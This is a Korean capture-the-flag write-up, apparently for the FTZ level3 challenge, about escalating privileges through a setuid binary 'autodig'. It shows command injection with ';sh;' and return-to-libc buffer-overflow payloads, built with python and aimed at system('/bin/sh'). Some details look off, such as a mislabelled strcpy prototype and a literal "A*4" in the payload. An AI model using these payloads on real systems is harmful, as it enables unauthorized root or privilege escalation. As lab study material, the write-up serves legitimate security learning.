## LEVEL 3


1. hint

   


2. level 4의 권한을 가진 file 찾기

   

<br>

------------------------

<br>

#### 개념 이해


1. `dig`

   > Domain Information Groper. DNS 네임서버 조회 명령어
   
   >
   > domain name에 대한 DNS 질의응답이 정상적으로 이루어지는지 확인

   

   - `dig @[server] [name] [query type]`	
   
     - server : 확인하고자 하는 name server를 지정하는 곳
     
       - 지정하지 않을 경우 /etc/resolv.conf에 등록된 name server를 이용해 r조회
     
       - `cat /etc/resolv.conf`
     
         
     
         → name server : 192.168.8.2
     
     
     
     - `dig naver.com`
     
       
     
       ​	→ /etc/resolv.conf에 등록된 name server를 통해 목표의 domain 조회	
     
     
     
     - `dig @168.126.63.1 naver.com`
     
       
     
       ​	→  name server 168.126.63.1 를 통해 목표의 domain 조회
     
       

2. `strcpy()`

   > 문자열 복사 함수

   - char \*strcat(char \*_Destination, char const \*_Source);

   - - char *Destination : 대상 문자열
     - char const *Source : 복사할 문자열
     - Source 문자열을 Destination 문자열에 복사
     - 대상 문자열의 pointer를 반환

   - 

3. `strcat`

   > 문자열 연결 함수

   - char \*strcat(char \*_Destination, char const \*_Source);
     - char *Destination : 최종 문자열
     - char const *Source : 붙일 문자열
     - 최종 문자열의 pointer를 반환

<br>   

----------------------------

<br>

#### 취약점 공략


1. 환경 변수 - PATH

   `echo $PATH`

   

   - `/bin` 이 환경 변수 PATH에 지정되어 있으므로 `/bin`에 있는 파일은 이름만으로 실행 가능

     

2. file (`autodig`) 실행

   - parameter를 쓰지 않은 경우

     `autodig`

     

     ​	→ argc가 2개가 아님 (argc = 1)

     

   - parameter를 잘못 쓴 경우

     `autodig 168.126.63.1 www.naver.com`

     

     ​	→ argc가 2개가 아님 (argc = 3)

     

   - parameter를 " "로 감싸준 경우

     `autodig "168.126.63.1 www.naver.com"`

     

     ​	→ argc = 2

     ​	→ `dig @168.126.63.1 naver.com` 가 실행됨


3. 첫번째 공격

   > ; 를 이용한 공격

   - `;`, `&&` : 명령어를 자동으로 이어서 실행 가능 (앞 명령어가 끝나면 뒷 명령어가 실행되는 방식)

     - `pwd; id; ls -ld /etc`

       

       ​	→ `pwd`, `id`, `ls -ld /etc` 명령어를 차례로 실행

       
     
     - `pwddd; id; ls -ld /etc`
     
       
     
       ​	→ `;` 를 이용한 명령어는 앞 명령어가 틀려도 뒷 명령어 실행 가능
     
       
     
     - `pwd && id && ls -ld /etc`
     
       
     
       ​	→ `pwd`, `id`, `ls -ld /etc` 명령어를 차례로 실행
     
       
     
     - `pwddd && id &&& ls -ld /etc`
     
       
     
       ​	→ `&&` 를 이용한 명령어는 앞 명령어가 틀리면 뒷 명령어 실행 불가능
     
       
     
   - `autodig "168.126.63.1 www.naver.com;sh;"`

     

     ​	→ `dig 168.126.63.1 www.naver.com;sh; version.bind chaos txt` 를 실행한 결과와 같음

     ​	→ setuid bit가 설정되어 있으므로 `sh`는 level 4의 권한으로 실행된다

     

   - `autodig "168.126.63.1 www.naver.com;my-pass;"`

     

     ​	→ `dig 168.126.63.1 www.naver.com;my-pass; version.bind chaos txt` 를 실행한 결과와 같음

     ​	→ setuid bit가 설정되어 있으므로 `my-pass`는 level 4의 권한으로 실행된다

   

4. 두번째 공격

   > RTL을 이용한 공격

   - RTL(Return To Libc) 

     ​	: stack에 공격 코드인 shell code를 올려놓고 실행하는 기법을 막은걸 우회하는 기법 

     

   - 메모리 구조 분석

     

   ​	→ 0x78 = 120

   ​	→ 120 = 100 byte + 12 byte (dummy) + 8 byte (dummy)

   ​	⇒	Low                                    								High 
   ​				|-------------- 120 -------------|-- 4 --|-- 4 --| 
   ​				|--- 100  ---|--- 12 ---|--- 8 ---|-- 4 --|-- 4 --|
   ​				+-----------+----------+--------+------+------+
   ​				| cmd[100] | dummy | dummy|  SFP  |  RET  |
   ​				+-----------+----------+--------+------+------+

   

   -  RTL 공격에 필요한 변수 준비

     - system() 함수의 주소

       

       

     - "/bin/sh" 문자열의 주소

       - `vi findshell.c` 명령어로 findshell.c 파일 만들기

         

       - findshell.c 파일 컴파일 및 실행

         

         

   - 공격 실행

     ```
     autodig `python -c 'print "A"*119+"\xc0\xf2\x03\x42"+"A*4"+"\xa4\x7e\x12\x42"'`
     ```

     

     - 메모리 구조 분석

       |-------------- 120 -------------|-- 4 --|-- 4 --|-- 4 --|-- 4 --|
       |--- 100  ---|--- 12 ---|--- 8 ---|-- 4 --|-- 4 --|-- 4 --|-- 4 --|
       +-----------+----------+--------+------+------+------+-------+
       | cmd[100] | dummy | dummy|  SFP  |  RET  | argc |argv[1]|
       +-----------+----------+--------+------+------+------+-------+

       |dig @| .......  AAAAAAAAAAAA  ......  |system|AAAA|/bin/sh|

       |-  5  -|-------------- 119 --------------|--- 4 --|-- 4 --|-- 4 --| 

       ​	⇒ `system(/bin/sh)`

       

3. 세번째 공격

   > 환경 변수를 이용한 RTL 공격

   - 환경변수에 "/bin/sh" 문자열 저장

     - `export MYSHELL="/bin/sh"`

       

     - 환경변수 `MYSHELL` 주소 확인

       - `vi getmyshell.c` 명령어로 getmyshell.c 파일 만들기

         

       - getmyshell.c 파일 컴파일 및 실행

         

   

   - 공격 실행

     ```
     autodig `python -c 'print "A"*119+"\xc0\xf2\x03\x42"+"A*4"+"\x6f\xff\xff\xbf"'`
     ```

     

     ​	⇒ `system(/bin/sh)`
